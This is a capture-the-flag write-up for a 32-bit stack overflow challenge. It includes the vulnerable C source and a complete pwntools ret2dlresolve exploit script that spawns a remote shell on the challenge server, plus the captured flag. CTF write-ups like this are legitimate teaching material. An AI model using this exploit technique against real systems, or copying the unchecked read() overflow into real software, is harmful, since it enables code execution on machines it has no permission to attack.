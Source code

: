 # Manual
---

### Challenge Description

No gadgets?

nc challenge1.lagncrash.com 10001

[manual.zip](https://github.com/caprinux/LagNCrash/files/6129967/manual.zip)

---

### Solution

We are provided with the source code and the binary ELF executable once again.

You know the drill.

```
$ pwn checksec manual
[*] '/media/sf_Kali_Linux/manual'

    Arch:     i386-32-little

    RELRO:    No RELRO

    Stack:    No canary found

    NX:       NX enabled

    PIE:      No PIE (0x8048000)

```C
#include <stdio.h>
#include <unistd.h>
int main(int argc, char** argv){
	vuln();
}

int vuln(void){
	char buf[128];
	read(0, buf, 300);
	return 0;
}
```

Okay, we tried many things, from trying some ROP to spamming support tickets to ask for libc library, but there was something we weren't seeing.

Legend has it that: When in doubt, google.

If you attempt to copy the whole checksec into google, the very second entry provides a writeup to a similar challenges. 

After reading it for some time, we realise that this challenge had something to do with ``RET2DLRESOLVE``.

Once again, when in doubt, google.

After looking around for quite some time, we arrive at a [pwntools page on ret2dlresolve](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html). 

After reading for some time again, we figured that this was what we were looking for.

This pwntool page featured a block of code using ret2dlresolve to pwn an example code that looked just like manual.

As a script kiddie, I copied the code from the website and tried to implement it for manual.

What I copied from the site:

```py
>>> context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))
>>> rop = ROP(context.binary)
>>> dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
>>> rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
>>> rop.ret2dlresolve(dlresolve)
>>> raw_rop = rop.chain()
>>> print(rop.dump())
0x0000:        0x80482e0 read(0, 0x804ae00)
0x0004:        0x80484ea <adjust @0x10> pop edi; pop ebp; ret
0x0008:              0x0 arg0
0x000c:        0x804ae00 arg1
0x0010:        0x80482d0 [plt_init] system(0x804ae24)
0x0014:           0x2b84 [dlresolve index]
0x0018:          b'gaaa' <return address>
0x001c:        0x804ae24 arg0
>>> p = elf.process()
>>> p.sendline(fit({64+context.bytes*3: raw_rop, 200: dlresolve.payload}))
>>> p.recvline()
b'pwned\n'
```

After clearing some stuff and changing into a script format, we get:
```py
from pwn import *
context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
print(rop.dump())
p = elf.process()
p.sendline(fit({64+context.bytes*3: raw_rop, 200: dlresolve.payload}))
p.recvline()
```

We change some of the more obvious stuff, such as changing the offsets from 64 to 128 and 200 to 300 according to the manual source code.
We change the argument from echo pwned to /bin/bash so we can get shell.
We change elf.process such that it connects to the remote server.
Now we execute the following:

```py
from pwn import *
context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/bash"])
rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
print(rop.dump())
p = remote('challenge1.lagncrash.com', 10001)
p.sendline(fit({128+context.bytes*3: raw_rop, 300: dlresolve.payload}))
p.recvline()
```

We receive an error.

```py
Traceback (most recent call last):

  File "/media/sf_Kali_Linux/testingformanual", line 2, in <module>

    context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))

  File "/usr/local/lib/python3.9/dist-packages/pwnlib/elf/elf.py", line 215, in __init__

    self.file = open(path,'rb')

FileNotFoundError: [Errno 2] No such file or directory: '/usr/local/lib/python3.9/dist-packages/pwnlib/data/elf/ret2dlresolve/i386'
```

With some googling, we managed to find that ELF actually can just take in a binary file.

Hence we replace pwnlib.data.elf.ret2dlresolve.get('i386') with 'manual'

We execute it again and this time we connected to the shell and nothing happens.

Looks like we forgot to change p.recvline() to p.interactive()


```py
from pwn import *

context.binary = elf = ELF('manual')

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/bash"])
rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
print(rop.dump())

p = remote('challenge1.lagncrash.com', 10001)
p.sendline(fit({128+context.bytes*3: raw_rop, 300: dlresolve.payload}))
p.interactive()
```

We now get a shell and if we list the files in the pwd, we see flag.txt.

We open flag.txt and we get the flag.

```
$ cat flag.txt
LNC{R350Lv3_7h15_4_M3}
```



